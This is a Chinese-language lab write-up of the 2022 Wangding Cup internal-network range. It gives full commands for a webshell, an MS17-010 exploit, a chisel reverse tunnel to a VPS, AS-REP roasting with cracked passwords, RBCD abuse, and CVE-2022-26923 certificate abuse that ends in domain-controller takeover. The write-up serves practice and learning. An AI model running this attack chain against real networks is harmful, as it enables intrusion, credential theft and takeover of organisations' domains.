





# 内网打靶—春秋云镜篇 (8)--2022 网鼎杯 - 先知社区

内网打靶—春秋云镜篇 (8)--2022 网鼎杯

- - -

# 外网打点

## 信息搜集

Fscan 扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163722-71a57b58-c726-1.png)

访问后发现是 Wordpress 站点，Wpscan 扫描漏洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163739-7bc70070-c726-1.png)

探测相关插件和 Wordpress 版本均未发现相关漏洞，尝试弱口令，以弱口令成功登入后台

## 写入 Webshell

后台可以编辑 PHP 文件，改动为一句话木马即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163746-80291b4e-c726-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163751-83396488-c726-1.png)

使用蚁剑进行连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163759-879b9a64-c726-1.png)

在根目录下发现 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163805-8b891e26-c726-1.png)

# 内网横向

## 信息搜集

Fscan 扫描内网网段

```plain
172.22.15.24:139 open
172.22.15.18:139 open
172.22.15.35:139 open
172.22.15.13:139 open
172.22.15.18:135 open
172.22.15.35:135 open
172.22.15.24:135 open
172.22.15.13:135 open
172.22.15.18:445 open
172.22.15.35:445 open
172.22.15.13:445 open
172.22.15.24:445 open
172.22.15.13:88 open
172.22.15.18:80 open
172.22.15.26:80 open
172.22.15.26:22 open
172.22.15.24:80 open
172.22.15.24:3306 open
[*] NetInfo 
[*]172.22.15.13
   [->]XR-DC01
   [->]172.22.15.13
[*] NetInfo 
[*]172.22.15.18
   [->]XR-CA
   [->]172.22.15.18
[*] NetInfo 
[*]172.22.15.24
   [->]XR-WIN08
   [->]172.22.15.24
[*] OsInfo 172.22.15.13 (Windows Server 2016 Standard 14393)
[+] MS17-010 172.22.15.24   (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] NetBios 172.22.15.35    XIAORANG\XR-0687              
[*] NetInfo 
[*]172.22.15.35
   [->]XR-0687
   [->]172.22.15.35
[*] NetBios 172.22.15.18    XR-CA.xiaorang.lab                  Windows Server 2016 Standard 14393
[*] NetBios 172.22.15.13    [+] DC:XR-DC01.xiaorang.lab          Windows Server 2016 Standard 14393
[*] NetBios 172.22.15.24    WORKGROUP\XR-WIN08                  Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[*] WebTitle http://172.22.15.26       code:200 len:39962  title:XIAORANG.LAB
[*] WebTitle http://172.22.15.18       code:200 len:703    title:IIS Windows Server
[*] WebTitle http://172.22.15.24       code:302 len:0      title:None 跳转 url: http://172.22.15.24/www
[+] PocScan http://172.22.15.18 poc-yaml-active-directory-certsrv-detect 
[*] WebTitle http://172.22.15.24/www/sys/index.php code:200 len:135    title:None
```

## 代理搭建

```plain
VPS: ./chisel server -p 7000 --reverse
靶机：./chisel client VPS:7000 R:0.0.0.0:7001:socks
```

## 攻击域成员一 (MS17-010)

访问存在 Web 服务的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163821-94e50e9e-c726-1.png)

发现是 ZDOO，搜索相关漏洞后无果

### 弱口令登录

尝试弱口令登录，成功以`admin/123456`登入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163829-99c4ecfe-c726-1.png)

发现多位域内用户，可能是要用到`AS—REP Roasting`攻击

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163836-9df1b596-c726-1.png)

### Kindeditor 漏洞尝试

在编辑信息处发现`kindeditor`编辑器

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163844-a2b2e42e-c726-1.png)

PHP 类型

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163852-a76fd558-c726-1.png)

但尝试相关漏洞后无果，怀疑是内网常见漏洞，尝试我们常见的永恒之蓝漏洞。

### Ms17-010 攻击

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163905-af0383c8-c726-1.png)

使用`upload`指令传马，再用`execute`执行，进而上线至 VIPER

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163916-b5649176-c726-1.png)

发现 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163924-ba587ef4-c726-1.png)

## 攻击域成员二 (RBCD)

### 信息搜集

新建管理员用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163930-be3291a4-c726-1.png)

`RDP`登录后发现桌面存放有数据库服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209163938-c3050cf2-c726-1.png)

使用 phpmyadmin 进行数据库连接后将用户导出

### AS—REP Roasting

使用`GetNPUsers`查找不需要 Kerberos 预身份验证的用户

```plain
proxychains python3 GetNPUsers.py -dc-ip 172.22.15.13 -usersfile /home/quan9i/zdoosys_user.txt xiaorang.lab/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209164143-0d37f5dc-c727-1.png)

`hashcat`爆破得到两组用户

```plain
lixiuying:winniethepooh
huachunmei:1qaz2wsx
```

使用`cme`尝试可 RDP 登录的主机

```plain
proxychains ./cme rdp 172.22.15.9/24 -u lixiuying -p winniethepooh -d xiaorang.lab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209164222-24622944-c727-1.png)

### Bloodhound 分析

```plain
proxychains bloodhound-python -u lixiuying -p winniethepooh -d xiaorang.lab -c all -ns 172.22.15.13 --zip --dns-tcp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209164243-311f53f0-c727-1.png)

查看域内关系

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209164808-f29e1750-c727-1.png)

发现此用户对`XR-0687`主机有`GenericWrite`权限，可尝试 RBCD 获取管理员权限

### RBCD 攻击

```plain
proxychains python3 addcomputer.py xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'qwq' -computer-pass 'Qq123456.'

proxychains python3 rbcd.py xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'qwq$'

proxychains python3 getST.py xiaorang.lab/'qwq':'Qq123456.' -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209165443-de105e64-c728-1.png)

而后导入票据并使用 psexecc 无密码登录即可进入

```plain
proxychains psexec.py administrator@XR-0687.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209165509-edc66c18-c728-1.png)

## 攻击域控 (CVE-2022–26923)

### 信息搜集

靶场提示`AD-CS`，使用`certipy`查找相关证书漏洞。

```plain
proxychains certipy find -u 'lixiuying@xiaorang.lab'  -password 'winniethepooh' -dc-ip 172.22.15.13 -vulnerable -stdout
```

不过我这里没出现具体漏洞，存在一些问题

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209165517-f2436502-c728-1.png)

做完想来应该是没有在`etc/hosts`中添加`XR-CA.xiaorang.lab`的`对应IP地址`，导致无法找到它这个主机。

当时在这里卡住了，参考[https://fushuling.com/index.php/2023/09/17/%e6%98%a5%e7%a7%8b%e4%ba%91%e5%a2%83%c2%b7%e7%bd%91%e9%bc%8e%e6%9d%af%e5%8d%8a%e5%86%b3%e8%b5%9b%e6%b2%a1%e6%89%93%e5%ae%8c/](https://fushuling.com/index.php/2023/09/17/%e6%98%a5%e7%a7%8b%e4%ba%91%e5%a2%83%c2%b7%e7%bd%91%e9%bc%8e%e6%9d%af%e5%8d%8a%e5%86%b3%e8%b5%9b%e6%b2%a1%e6%89%93%e5%ae%8c/)

### 漏洞探测

首先添加用户，如果能够添加成功就说明漏洞存在，使用工具链接[https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

```plain
proxychains certipy account create -user 'TEST2$' -pass 'P@ssw0rd' -dns XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 -u lixiuying -p 'winniethepooh'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209165524-f692f2c6-c728-1.png)

成功添加，说明漏洞存在。

### 申请证书模板

要尝试两次才能成功

```plain
proxychains certipy req -u 'TEST2$@xiaorang.lab' -p 'P@ssw0rd' -ca 'xiaorang-XR-CA-CA' -target 172.22.15.18 -template 'Machine'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209165530-fa6135b6-c728-1.png)

接下来按照正常流程走会出错

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209165535-fd5f44c4-c728-1.png)

这里的话看大师傅们说是因为`域控制器没有安装用于智能卡身份验证的证书`，解决办法的话就是尝试 Schannel，通过 Schannel 将证书传递到 LDAPS, 修改 LDAP 配置 (例如配置 RBCD / DCSync), 进而获得域控权限。

### 尝试 Schannel

首先将 pfx 导出为.key 和.crt 两个文件 (空密码)

```plain
openssl pkcs12 -in xr-dc01.pfx -nodes -out test.pem
openssl rsa -in test.pem -out test.key
openssl x509 -in test.pem -out test.crt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209165541-00f46d4e-c729-1.png)

```plain
proxychains python3 passthecert.py -action whoami -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209165546-03e29120-c729-1.png)

接下来将证书配置到域控的`RBCD`

```plain
proxychains python3 passthecert.py -action write_rbcd -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13 -delegate-to 'XR-DC01$' -delegate-from 'TEST2$'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209165554-08780c6a-c729-1.png)

接下来同之前一样，申请 ST，导入票据，无密码登录即可。

```plain
proxychains getST.py xiaorang.lab/'TEST2$':'P@ssw0rd' -spn cifs/XR-DC01.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209165559-0b9f3cd8-c729-1.png)

```plain
export KRB5CCNAME=Administrator@cifs_XR-DC01.xiaorang.lab@XIAORANG.LAB.ccache
proxychains python3 psexec.py Administrator@XR-DC01.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209165606-0fdb8554-c729-1.png)

在 Administrator 下发现 flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240209165613-13daec30-c729-1.png)
